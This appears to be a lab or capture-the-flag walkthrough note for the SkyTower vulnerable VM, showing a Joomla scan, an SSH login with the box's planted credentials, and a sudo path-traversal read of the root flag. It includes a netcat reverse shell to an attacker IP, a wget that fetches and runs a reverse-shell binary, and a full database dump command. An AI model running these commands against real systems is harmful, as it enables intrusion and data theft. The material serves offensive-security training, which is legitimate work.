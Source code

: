 \[+\] joomscan -u $IP -ec

# Local Filesystem Findings:

\[+\] FILES OF INTEREST

\[+\] SUID

\[+\] SGID

\[+\] Dumps, outputs, other useful information

```
Welcome john@skytech.com
As you may know, SkyTech has ceased all international operations.
To all our long term employees, we wish to convey our thanks for your dedication and hard work.
Unfortunately, all international contracts, including yours have been terminated.
The remainder of your contract and retirement fund, $2 ,has been payed out in full to a secure account. For security reasons, you must login to the SkyTech server via SSH to access the account details.
Username: john
Password: hereisjohn
We wish you the best of luck in your future endeavors.
```

<img src="../../_resources/3f03cfea3b5f5de661496554910f0cd6.png" alt="3f03cfea3b5f5de661496554910f0cd6.png" width="435" height="452" class="jop-noMdConv">

```
└─# ssh john@127.0.0.1 -p 2222
The authenticity of host '[127.0.0.1]:2222 ([127.0.0.1]:2222)' can't be established.
ECDSA key fingerprint is SHA256:QYZqyNNW/Z81N86urjCUIrTBvJ06U9XDDzNv91DYaGc.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[127.0.0.1]:2222' (ECDSA) to the list of known hosts.
john@127.0.0.1's password: 
Linux SkyTower 3.2.0-4-amd64 #1 SMP Debian 3.2.54-2 x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Fri Jun 20 07:41:08 2014

Funds have been withdrawn
Connection to 127.0.0.1 closed
```

```bash
#noteworthy commands (since the box seems to be broken..)

#to catch a reverse shell since the SSH service terminates right after login
sshpass -p hereisjohn ssh john@127.0.0.1 -p 2222 -C 'nc 192.168.0.163 7776 -e /bin/bash'
#To be able to download files via meterpreter.
sshpass -p hereisjohn ssh john@127.0.0.1 -p 2222 -C 'wget http://192.168.0.163:8000/rev.elf; chmod +x rev.elf; ./rev.elf&' 
# To grab all databases
mysqldump -u root --all-databases -p root
```

# Exploits and Payloads:

\[+\] sudo /bin/cat /accounts/../root/flag.txt